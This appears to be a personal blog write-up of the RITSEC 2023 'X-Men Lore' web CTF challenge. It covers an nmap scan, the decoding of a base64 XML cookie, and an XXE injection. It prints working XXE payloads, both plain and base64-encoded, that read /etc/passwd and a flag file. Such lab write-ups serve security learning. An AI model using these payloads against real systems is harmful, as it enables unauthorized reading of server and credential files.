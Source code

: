 ```yaml
---
title: "[RITSEC 2023] - X-Men Lore"
date: 2023-04-02
author: me
categories: [writeups]
tags: ["Web", "RITSEC"]
toc: true
comments: false
mermaid: false
math: false
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.2/css/all.min.css">
<link rel="stylesheet" href="/assets/css/lil-bootstrap.css">
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>

<br>


*The 90's X-Men Animated Series is better than the movies. Change my mind.*

[https://xmen-lore-web.challenges.ctf.ritsec.club/](https://xmen-lore-web.challenges.ctf.ritsec.club/)


_____________________________________________________

<br>

**Table of contents:**

- <a href="#nmap">Nmap</a>
- <a href="#web-app">Web app</a>
- <a href="#exploit">Exploit</a>
- <a href="#flag">Flag</a>

<br>

### Nmap

```
┌──(teiiko㉿kali)-[~/Bureau/RITSEC]
└─$ nmap -sV xmen-lore-web.challenges.ctf.ritsec.club
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-01 12:37 CEST
Nmap scan report for xmen-lore-web.challenges.ctf.ritsec.club (34.111.96.219)
Host is up (0.016s latency).
rDNS record for 34.111.96.219: 219.96.111.34.bc.googleusercontent.com
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE   VERSION
80/tcp  open  http      gunicorn
443/tcp open  ssl/https gunicorn
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/

Service detection performed. Please report any incorrect resultsorg/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.59 seconds

```
### Web app

By reaching the website, we arrive on a main page that allows us to choose an X-Men character. 

![first](/images/x-men/x-men-main.png)

So let's pick one of them.

![first](/images/x-men/x-men-main-2.png)

There is nothing interesting either in the page or in the source code, so i looked for cookies and found something interesting:

![first](/images/x-men/x-men-main-3.png)

Indeed, everytime we choose a charactere, a new cookie is set up:

![first](/images/x-men/x-men-main-4.png)

It looks like a base64-encoded string, so lets try to decode it.

```bash
teiiko@LAPTOP-1H1P71UP:~$ echo PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48aW5wdXQ+PHhtZW4+V29sdmVyaW5lPC94bWVuPjwvaW5wdXQ+ | base64 -d
<?xml version='1.0' encoding='UTF-8'?><input><xmen>Wolverine</xmen></input>
teiiko@LAPTOP-1H1P71UP:~$
```

Now, we understand we have to try for an XML eXternal Entity (XXE) Injection.

### Exploit

Firstly, I tried to read an existing file, like `/etc/passwd`.

So, I performed this payload...

```xml
<?xml version='1.0' encoding='UTF-8'?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
    <input>
        <xmen>&xxe;</xmen>
    </input>
```

...wich gives us in base64 the following string:

```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgZm9vIFs8IUVOVElUWSB4eGUgU1lTVEVNICJmaWxlOi8vL2V0Yy9wYXNzd2QiPl0+PGlucHV0Pjx4bWVuPiZ4eGU7PC94bWVuPjwvaW5wdXQ+Cg==
```

Then, i replaced my cookie and refreshed the page.

![first](/images/x-men/x-men-main-6.png)

And we sucessfully get then content of `/etc/passwd` file !

### Flag

Here comes the most difficult part (a little bit too guessy imo), we have to find a file containing the flag. I tried a lot of things like log files, user specific files, linux default files.. but none gave me the flag or interesting data. So, after being stucked for an hour, I looked for more obvious files that we conventionally find in CTF (like `flag`, `flag.txt`, `/passwd`...).

So, I firstly tried to read a potential `flag` file and it worked... !

![first](/images/x-men/x-men-flag.png)

> 🚩 `RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}`

**Final payload:**

```xml
<?xml version='1.0' encoding='UTF-8'?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file://./flag">]>
    <input>
        <xmen>&xxe;</xmen>
    </input>
```

**Base64-encoded string**

```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgZm9vIFs8IUVOVElUWSB4eGUgU1lTVEVNICJmaWxlOi8vLi9mbGFnIj5dPjxpbnB1dD48eG1lbj4meHhlOzwveG1lbj48L2lucHV0Pgo=
```